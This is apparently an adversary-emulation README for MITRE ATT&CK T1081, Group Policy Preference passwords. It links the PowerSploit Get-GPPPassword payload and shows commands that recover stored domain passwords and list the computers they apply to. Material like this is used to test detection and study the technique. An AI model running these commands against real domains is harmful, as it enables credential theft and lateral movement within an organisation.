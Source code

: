 # Credentials in Files

MITRE ATT&CK Technique: [T1081](https://attack.mitre.org/wiki/Technique/T1081)

## Group Policy Preference

[Payload](Payloads/Get-GPPPassword.ps1)
[PowerSploit Source](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

Input:

    Get-GPPPassword -Server EXAMPLE.COM

#retrieve all the computer dns host names a GPP password applies to
    
     PS> Get-DomainOU -GPLink '<GPP_GUID>' | % {Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname}
